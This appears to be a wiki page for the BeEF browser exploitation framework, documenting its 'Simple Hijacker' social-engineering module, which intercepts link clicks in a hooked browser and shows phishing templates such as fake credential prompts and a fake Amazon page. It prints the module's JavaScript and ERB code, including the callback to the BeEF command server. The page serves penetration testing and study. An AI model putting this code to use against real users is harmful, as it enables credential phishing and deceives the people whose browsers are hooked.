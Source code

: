 ##Summary
* **Objective**: Hijack clicks on links to display what you want.
* **Authors**: gallypette
* **Browsers**: All (user notified)
* **Parameters** :
  * **targeted domains** : Only links including one of this domain will be targeted (domains are separated by a comma)
  * **Template to use** : List of template for social engineering attacks : credential, confirmbox, amazon, chromecertbeggar, chromecertbeggar2
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/simple_hijacker)

## Internal working

Basically, this module will take any link in the page, check if it target one of the domains given and load the template when the link is clicked.

```javascript
    $j('a').click(function(e) {
      e.preventDefault();
      if ($j(this).attr('href') != '')
      {
        if( <% target.each{ |href| %> $j(this).attr('href').indexOf("<%=href%>") != -1 <% if href != target.last %> || <% else %> ) <% end %><% } %>{	
          <%
              tplpath = "#{$root_dir}/modules/social_engineering/simple_hijacker/templates/#{@choosetmpl}.js"
              file = File.open(tplpath, "r")
              @template = file.read
          %>
          <%= @template %>
          beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Template "<%= @choosetmpl %>" applied to '+$j(this).attr('href'));
        }
      }
    });
```

## Screenshots 

[[Images/module-simplehijacker1.png|align=center]]

## Feedbacks

* Domains are really important as the name should be included in the link. Links which are not included in this domain's list will not redirect anymore.